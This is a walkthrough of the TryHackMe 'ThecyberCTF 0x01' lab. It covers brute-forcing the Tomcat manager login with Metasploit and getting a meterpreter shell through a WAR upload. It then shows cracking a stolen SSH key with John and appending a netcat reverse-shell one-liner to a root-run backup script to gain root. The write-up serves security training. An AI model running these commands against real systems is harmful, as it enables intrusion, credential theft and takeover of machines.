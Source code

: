 # ThecyberCTF 0x01


ThecyberCTF 0x01: https://tryhackme.com/jr/thecyb3rctfv1
ThecyberCTF 0x01: https://tryhackme.com/jr/thecyberctf0x1

---

Level: Easy (For Beginners)

## **Methodology:**

**Network scanning**

- nmap
- naabu

**Enumeration**

- Abusing HTTP

**Exploitation**

- Metasploit
- John the Ripper

**Privilege Escalation**

- writable script
- Capture the Flag

---

### **Network Scanning**

Initially, we will scan the network to find the Victim machine IP using the netdiscover command.

We have the machine's ip: `10.10.139.12`

**naabu** + **Nmap**

Further, we ran scan for open port enumeration where we found the following port details:

- `echo 10.10.139.12 | naabu -nmap-cli 'nmap -sV -oX nmap-output'`

According to the Nmap output, we get

- on port 22 SSH server running (OpenSSH)
- on port 8080 HTTP service running (Apache tomcat)
- ![](images/naabu.png)

### **Enumeration**

**Abusing HTTP**

Now let’s see if we can get any interesting information from port 8080. Because the Apache Tomcat Server is running on port 8080, we can see the result right away in the browser.

We note the Tomcat version number: 9.0.52

> URL:  **10.10.139.12:8080**

- ![](images/website.png)

Here is a Login page

- ![](images/userpasslogin.png)

### **Exploitation**

**Metasploit**

Now, let’s start msfconsole. We will be using the auxiliary scanner to bruteforce tomcat manager login. Here we are using Metasploit default wordlist for password brute force attack.

- msfconsole
- ![](images/msf.png)

- > `search tomcat login`
- ![](images/tomact_mg_login.png)
- `use 0`
- `options`
- ![](images/mgr_login_options.png)
- `set RHOSTS 10.10.139.12`
- `exploit`
- ![](images/userpass.png)
- tomcat:role1
- login

- Upload functionality
- ![](images/upload_website_options.png)

- `ifconfig`
- my vpn ip: `10.17.66.156`
- ![](images/vpn_ip_check.png)

- `search tomcat upload mgr`
- ![](images/tomact_mgr_upload.png)

- use 1
- options
  - `set HttpUsername tomcat`
  - `set HttpPassword role1`
  - `set RHOSTS 10.10.139.12`
  - `set RPORT 8080`
  - `set LHOST 10.17.66.156`
  - ![](images/Pasted image 20220925230425.png)
- exploit
  - ![](images/meterpreter_shell.png)

After getting the meterpreter shell we navigate to the ‘home’ directory and there we can find a sub-directory named ‘thales’. Entering the ‘thales’ directory we get two files: **user.txt** and **notes.txt.** We also find a **.ssh** directory.

- `cd /home`
- `ls`
- `cd thales`
- `ls`
  ![](images/ls_home_thales.png)

We observe that the public key (id_rsa.pub) and the private key(id_rsa) are present on the victim machine. The private key is used to login. So now we proceed to download the private key onto our kali machine.

cd .ssh

ls

download id_rsa /root/Desktop
![](images/download_id_rsa.png)

locate ssh2john

/usr/share/john/ssh2john.py id_rsa > sshhash

john --wordlist=/usr/share/wordlists/rockyou.txt sshash
![](images/john_crack.png)

found: vodka06

go back to your meterpreter

- `shell`

After we get a shell, we will upgrade our non-interactive shell to a partially interactive one using the following command:

- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`

Since we have cracked the password of user ‘thales’, let’s switch to the thales user.
`su thales`
After switching to thales user, we use the command “**id**” to know about the real and effective ‘user and group’ IDs. We find that thales is a non-root user.

![](images/thales_password.png)

cat the users.txt now

We now use “ sudo -l “ to check which commands can be run as root by the user thales.

- `sudo -l`

We find that user thales does not have the ability to run any command as root. So now we navigate around in search of some interesting files.

We get a hint on note.txt that a backup script is prepared for us in the directory **/usr/local/bin/backup.sh**

![](images/backup_explain.png)

Now, let’s go and check the backup.sh file. We investigate and find that this file has read, written, and execute permissions and the file is owned by the root.

- `cat /usr/local/bin/backup.sh`
- `ls -la /usr/local/bin/backup.sh`

![](images/backup.sh.png)

---

### Privilege Escalation

Since the backup.sh is writable thus we can edit this script by injecting reverse shell payload and expect to get root shell access.

On our attacking machine ( kali ) we will start a Netcat listener to receive the shell, on port 8888

`nc -lvp 8888`

Execute the following command in the terminal to append the backup.sh script for injecting malicious payload.

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.6.180 8888 >/tmp/f" >> /usr/local/bin/backup.sh`

since it was a backup script that run automatically, thus it will give root privilege reverse shell over port 8888.

**Capture the root flag**

- `id`
- `cd /root`
- `ls`
- `cat root.txt`
